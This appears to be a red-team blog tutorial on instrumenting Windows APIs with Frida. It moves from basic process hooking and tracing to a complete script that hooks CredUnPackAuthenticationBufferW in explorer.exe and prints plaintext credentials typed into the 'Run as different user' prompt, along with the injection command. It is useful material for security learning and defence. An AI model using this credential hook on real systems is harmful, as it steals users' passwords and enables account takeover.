 ```yaml
---
layout: post
title: "2024-06-18-instrumenting windows apis with frida"
date: 2024-06-18
categories: windows-kernel-internals
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /instrumenting-windows-apis-with-frida/
---
```


# Instrumenting Windows APIs with Frida

[Frida](https://frida.re) is dynamic instrumentation toolkit for developers, reverse-engineers, and security researchers.

## Spawning New Process with Frida

We can ask frida to spawn a new process for us to instrument:

```
frida c:\windows\system32\notepad.exe
```

![](<../../.gitbook/assets/image (742).png>)

## Attaching Frida to Existing Process

We can ask frida to attach to an existing process:

```
frida -p 10964
```

![](<../../.gitbook/assets/image (743).png>)

## Hooking a Function

The below code in `hooking.js` will find address of the Windows API `WriteFile` (lives in kernel32.dll/kernelbase.dll) and hexdump the contents of the 1st argument passed to it:

{% code title="hooking.js" %}
```javascript
var writeFile = Module.getExportByName(null, "WriteFile");

Interceptor.attach(writeFile, {
    onEnter: function(args)
    {
        console.log("Buffer dump:\n" + hexdump(args[1]));
        // console.log("\nBuffer via Cstring:\n" + Memory.readCString(args[1]));
        // console.log("\nBuffer via utf8String:\n" + Memory.readUtf8String(args[1]));
    }
});
```
{% endcode %}

Let's spawn a new `notepad.exe` through Frida and supply it with the above `hooking.js` code, so that we can start instrumenting the `WriteFile` API and inspect the contents of the buffer that is being written to disk:

```
frida C:\windows\system32\notepad.exe -l .\hooking.js
```

![](../../.gitbook/assets/frida-instrumenting-api.gif)

Notice that we can update the `hooking.js` code and the instrumentation happens instantly - it does not require us to re-spawn the notepad or re-attaching Frida to it. In the above GIF, this can be seen at the end when we request the console to spit out the `process.id` (the frida is attached to) and the notepad process ID gets printed out to the screen instantly.

## Frida-Trace

If we want to see if certain API calls are invoked by some specific process, say `WriteFile`, we can use `frida-trace` tool like so:

```
frida-trace -i "WriteFile" C:\windows\system32\notepad.exe
```

![](../../.gitbook/assets/frida-trace.gif)

## Real Life Example - Intercepting Credentials

Below shows how we can combine the above knowledge for something a bit more interesting.

Can we intercept the plaintext credentials from the credentials prompt the user gets when they want to execute a program as another user?

![Credentials prompt presented for "Run as different user"](../../.gitbook/assets/credential-popup.gif)

The answer is of course yes, so let's see how this could be done using Frida tools.

Let's use `frida-trace` to see if explorer.exe ever calls any functions named `*Cred*` when we invoke the credentials popup:

```
frida-trace -i "*Cred*" -p (ps explorer).id
```

Below, we can see that indeed, there is a call to `CredUIPromptForWindowsCredentialsW` made when the prompt is first invoked:

![](../../.gitbook/assets/credential-popup-trace.gif)

Entering some fake credentials shows the following interesting `Cred*` API calls are made (in red):

![](<../../.gitbook/assets/image (744).png>)

...and the [`CredUnPackAuthenticationBufferW`](https://docs.microsoft.com/en-us/windows/win32/api/wincred/nf-wincred-credunpackauthenticationbufferw) (in lime) is of special interest, because per MSDN:

> &#x20;The **CredUnPackAuthenticationBuffer** function converts an authentication buffer returned by a call to the [CredUIPromptForWindowsCredentials](https://docs.microsoft.com/en-us/windows/desktop/api/wincred/nf-wincred-creduipromptforwindowscredentialsa) function into a string user name and password.

We can now instrument `CredUnPackAuthenticationBufferW` in a frida javascript like so:

{% code title="Credentials.js" %}
```javascript
var username;
var password;
var CredUnPackAuthenticationBufferW = Module.findExportByName("Credui.dll", "CredUnPackAuthenticationBufferW")

Interceptor.attach(CredUnPackAuthenticationBufferW, {
    onEnter: function (args) 
    {
        // Credentials here are still encrypted
        /*
            CREDUIAPI BOOL CredUnPackAuthenticationBufferW(
                0 DWORD  dwFlags,
                1 PVOID  pAuthBuffer,
                2 DWORD  cbAuthBuffer,
                3 LPWSTR pszUserName,
                4 DWORD  *pcchMaxUserName,
                5 LPWSTR pszDomainName,
                6 DWORD  *pcchMaxDomainName,
                7 LPWSTR pszPassword,
                8 DWORD  *pcchMaxPassword
            );        
        */
        username = args[3];
        password = args[7];
    },
    onLeave: function (result)
    {
        // Credentials are now decrypted
        var user = username.readUtf16String()
        var pass = password.readUtf16String()

        if (user && pass)
        {
            console.log("\n+ Intercepted Credentials\n" + user + ":" + pass)
        }
    }
});
```
{% endcode %}

We can now hook the explorer.exe by providing frida with our instrumentation script like so:

```
frida -p (ps explorer).id -l C:\labs\frida\hello-world\credentials.js
```

![](<../../.gitbook/assets/image (745).png>)

With `CredUnPackAuthenticationBufferW ` instrumented, entering credentials in the prompt launched by explorer.exe, gives us the expected result - the credentials are seen in plaintext:

![](../../.gitbook/assets/credential-popup-capture-credentials.gif)

## Resources

{% embed url="https://frida.re/docs/javascript-api/#memory" %}
@spotheplanet
